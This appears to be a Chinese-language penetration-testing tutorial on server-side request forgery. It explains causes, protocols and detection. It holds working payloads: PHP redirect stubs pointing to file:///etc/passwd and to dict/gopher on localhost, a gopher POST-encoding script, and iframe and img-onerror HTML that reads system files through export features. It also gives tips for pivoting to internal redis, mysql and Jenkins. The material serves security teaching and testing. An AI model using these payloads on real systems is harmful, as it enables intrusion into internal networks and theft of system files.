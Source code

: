 # SSRF

## 漏洞成因：

web服务器经常需要从别的服务器获取数据，比如文件载入、图片拉取、图片识别等功能，

如果获取数据的服务器地址可控，攻击者就可以通过web服务器自定义向别的服务器发出请求。

因为web服务器常搭建在DMZ区域，因此常被攻击者当作跳板，向内网服务器发出请求。

> DMZ区域
>
> DMZ（Demilitarized Zone）是网络安全中的一个术语，它指的是位于内部网络和外部网络之间的一个隔离区域。
>
>DMZ提供了一个额外的安全层，用于分离和保护内部网络中的敏感系统和数据免受来自外部网络的攻击。
>
> 在一个典型的网络架构中，DMZ通常位于防火墙内部，同时连接着外部网络和内部网络。
>
> DMZ中放置了一些对外服务，如Web服务器、邮件服务器等。这些对外服务需要与外部网络进行通信，但又不能直接接触内部网络中的敏感系统和数据。

## 协议

ssrf常用的协议：http/https、dict、file、gopher、sftp、ldap、tftp

### http/https

当ssrf限制只能使用http或https协议，可通过Header函数绕过限制。在vps创建一个302.php的文件，根据需求设置协议类

举例

    <?php
    header("Location: file:///etc/passwd");
    ?>
    
    <?php
    header("Location: dict://127.0.0.1:6666/info");
    ?>
    
    <?php
    header("Location: gopher://127.0.0.1:6666/info");
    ?>

### gopher

> Gopher是Internet上非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便将用户从Internet的一处带到另一处。
>
> 但WWW出现以后，就很少使用Gopher了

#### gopher使用限制

    PHP     --write-curlwrappers且php版本至少为5.3
    
    Java    小于JDK1.7
    
    Curl    低版本不支持
    
    Perl    支持
    
    ASP.NET 小于版本3

#### 格式

    gopher://<host>:<port>/<path>_后接TCP数据流
    
> gopher默认端口是70
>
> 如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码

#### 利用gopher协议发送POST请求

脚本举例

    import urllib.parse
    test =\
    """POST / HTTP/1.1
    Host: 127.0.0.1:8000
    Content-Typr: application/x-www-form-urlencoded
    Content-Length: 11
    
    name=xxx
    """  
    #以上内容放置请求包内容，注意后面一定要有回车，回车结尾表示http请求结束
    tmp = urllib.parse.quote(test)
    new = tmp.replace('%0A','%0D%0A')
    result = '_'+new
    print(result)

除了发出HTTP请求外，gopher协议还常被用来攻击内网redis、Zabbix、FastCGI、mysql等服务

利用工具：

    https://github.com/tarunkant/Gopherus

## 利用

所有需要输入url的地方都可以尝试ssrf，将url改成dnslog地址，验证请求IP是否来自web服务器：

* 远程图片拉取
* xls，doc等文件预览
* 头像加载
* 其他网站的访问截图

ssrf漏洞可分为有回显型和无回显型

### 回显型

有回显型ssrf可以直接通过页面加载出目标资产，可先尝试加载http://www.baidu.com 页面确认有ssrf，

如果成功的话，可进一步将百度换成内网IP，通过fuzz扫描内网资产。

#### 场景

##### SVG SSRF

由于 SVG 的功能十分丰富，所以能够处理SVG 的服务器就很有可能遭受到 SSRF、XSS、RCE 等的攻击，特别是在没有禁用一些特殊字符的情况下。

svg攻击payload

    https://github.com/allanlw/svg-cheatsheet
    
##### 导出功能SSRF

有些网站存在功能，能够将一些将数据分析的表格导出为pdf或者图片，当POST数据包中，以html文件内容作为传输，则这里可能存在ssrf漏洞

我们将html内容修改为

    <svg><iframe src="攻击者服务器ip" width="800" height="850"/></svg>
    
通过攻击者服务器进行302重定向

    <iframe+src=攻击者服务器302重定向的地址">
     
    原理：
    通过header设置Location: file:///etc/passwd
    
常规payload

    <iframe src="file:///etc/password">
    document.location
    <img src=x onerror="document.write(document.location)"/>
    <img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
    <link rel=attachment href="file:///etc/passwd">
    <img src=x onerror=document.write(window.location)>
  

### 无回显型

无回显型ssrf的检测需要先配合dnslog平台，测试dnslog平台能否获取到服务器的访问记录，如果没有对应记录，也可能是服务器不出网造成的，

利用时可以通过请求响应时间判断内网资产是否存在，

然后再利用内网资产漏洞（比如redis以及常见可RCE的web框架）证明漏洞的有效性。

或者可以尝试寻找内网的Confluence, Jenkins等资产，这篇文章是专门介绍bind ssrf利用技巧的，可以作为参考：

    https://github.com/assetnote/blind-ssrf-chains
